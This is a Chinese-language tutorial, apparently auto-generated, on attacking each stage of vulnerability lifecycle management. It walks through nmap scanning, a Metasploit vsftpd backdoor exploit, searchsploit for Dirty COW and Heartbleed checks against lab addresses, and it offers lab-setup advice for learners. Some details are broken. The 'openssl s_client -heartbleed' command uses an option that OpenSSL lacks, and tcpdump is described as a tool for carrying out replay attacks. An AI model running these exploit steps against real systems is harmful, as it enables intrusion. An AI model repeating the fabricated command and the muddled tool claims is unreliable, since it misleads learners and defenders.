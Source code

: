 # 漏洞生命周期管理的攻击技术

## 1. 概述

漏洞生命周期管理（Vulnerability Lifecycle Management, VLM）是网络安全中的一个关键环节，涉及漏洞的发现、评估、修复和验证。然而，攻击者也在利用漏洞生命周期的各个阶段进行攻击。本文将深入探讨漏洞生命周期管理中的常见攻击手法和利用方式，包括技术原理解析、变种和高级利用技巧、攻击步骤和实验环境搭建指南。

## 2. 技术原理解析

### 2.1 漏洞发现阶段的攻击

在漏洞发现阶段，攻击者通常通过以下方式寻找目标系统中的漏洞：

- **自动化扫描**：使用工具如Nmap、Nessus、OpenVAS等对目标系统进行扫描，寻找已知漏洞。
- **手动测试**：通过手动测试技术如SQL注入、XSS、CSRF等，寻找潜在的漏洞。
- **信息收集**：通过WHOIS查询、DNS枚举、子域名爆破等手段，收集目标系统的信息，为后续攻击做准备。

### 2.2 漏洞利用阶段的攻击

在漏洞利用阶段，攻击者会根据发现的漏洞类型，选择相应的利用方式：

- **远程代码执行（RCE）**：利用漏洞在目标系统上执行任意代码，如通过Shellshock漏洞。
- **权限提升**：利用漏洞提升当前用户的权限，如通过Dirty COW漏洞。
- **数据泄露**：利用漏洞获取敏感信息，如通过Heartbleed漏洞。

### 2.3 漏洞修复阶段的攻击

在漏洞修复阶段，攻击者可能会利用以下方式进行攻击：

- **补丁绕过**：通过分析补丁，找到未修复的漏洞或新的攻击向量。
- **社会工程**：通过钓鱼邮件、虚假补丁等方式，诱导用户安装恶意软件。

### 2.4 漏洞验证阶段的攻击

在漏洞验证阶段，攻击者可能会通过以下方式进行攻击：

- **重放攻击**：通过重放之前的攻击流量，验证漏洞是否已被修复。
- **持续监控**：通过持续监控目标系统，寻找新的漏洞或攻击机会。

## 3. 变种和高级利用技巧

### 3.1 多阶段攻击

攻击者可能会将多个漏洞结合起来，进行多阶段攻击。例如，首先利用一个信息泄露漏洞获取敏感信息，然后利用一个权限提升漏洞获取系统控制权。

### 3.2 零日攻击

零日攻击是指利用尚未公开的漏洞进行攻击。攻击者可能会通过逆向工程、漏洞挖掘等方式，发现并利用零日漏洞。

### 3.3 供应链攻击

攻击者可能会通过攻击软件供应链，将恶意代码注入到合法软件中。例如，通过攻击开源库、第三方组件等，影响最终用户。

## 4. 攻击步骤和实验环境搭建指南

### 4.1 实验环境搭建

为了进行漏洞生命周期管理的攻击技术实验，建议搭建以下环境：

- **虚拟机**：使用VMware、VirtualBox等工具，搭建多个虚拟机，模拟目标系统和攻击者系统。
- **漏洞靶机**：使用Metasploitable、DVWA等漏洞靶机，模拟存在漏洞的系统。
- **攻击工具**：安装Nmap、Metasploit、Burp Suite等工具，进行漏洞扫描和利用。

### 4.2 攻击步骤

以下是一个典型的漏洞生命周期管理攻击步骤：

1. **信息收集**：
   ```bash
   nmap -sP 192.168.1.0/24
   ```
   通过Nmap扫描目标网络，发现目标系统的IP地址。

2. **漏洞扫描**：
   ```bash
   nmap -sV -O 192.168.1.100
   ```
   通过Nmap扫描目标系统的端口和服务，寻找已知漏洞。

3. **漏洞利用**：
   ```bash
   msfconsole
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOSTS 192.168.1.100
   exploit
   ```
   通过Metasploit利用目标系统的漏洞，获取系统控制权。

4. **权限提升**：
   ```bash
   searchsploit dirty cow
   ```
   通过SearchSploit查找权限提升漏洞，如Dirty COW。

5. **数据泄露**：
   ```bash
   openssl s_client -connect 192.168.1.100:443 -heartbleed
   ```
   通过OpenSSL测试目标系统是否存在Heartbleed漏洞，获取敏感信息。

6. **补丁绕过**：
   ```bash
   diff -u original_patch.patch new_patch.patch
   ```
   通过分析补丁，找到未修复的漏洞或新的攻击向量。

7. **重放攻击**：
   ```bash
   tcpdump -i eth0 -w capture.pcap
   ```
   通过Tcpdump捕获攻击流量，进行重放攻击。

## 5. 实际命令、代码或工具使用说明

### 5.1 Nmap

Nmap是一个网络扫描工具，用于发现目标系统的开放端口和服务。

```bash
nmap -sP 192.168.1.0/24
nmap -sV -O 192.168.1.100
```

### 5.2 Metasploit

Metasploit是一个渗透测试框架，用于漏洞利用和权限提升。

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.100
exploit
```

### 5.3 SearchSploit

SearchSploit是一个漏洞数据库搜索工具，用于查找已知漏洞。

```bash
searchsploit dirty cow
```

### 5.4 OpenSSL

OpenSSL是一个加密工具，用于测试SSL/TLS漏洞。

```bash
openssl s_client -connect 192.168.1.100:443 -heartbleed
```

### 5.5 Tcpdump

Tcpdump是一个网络流量捕获工具，用于重放攻击。

```bash
tcpdump -i eth0 -w capture.pcap
```

## 6. 结论

漏洞生命周期管理的攻击技术涉及多个阶段，包括漏洞发现、利用、修复和验证。攻击者通过自动化扫描、手动测试、信息收集等手段，寻找并利用目标系统中的漏洞。通过搭建实验环境，使用Nmap、Metasploit、SearchSploit等工具，可以深入理解和掌握这些攻击技术。在实际应用中，建议采取多层次的安全防护措施，及时发现和修复漏洞，降低被攻击的风险。

---

*文档生成时间: 2025-03-17 12:09:53*
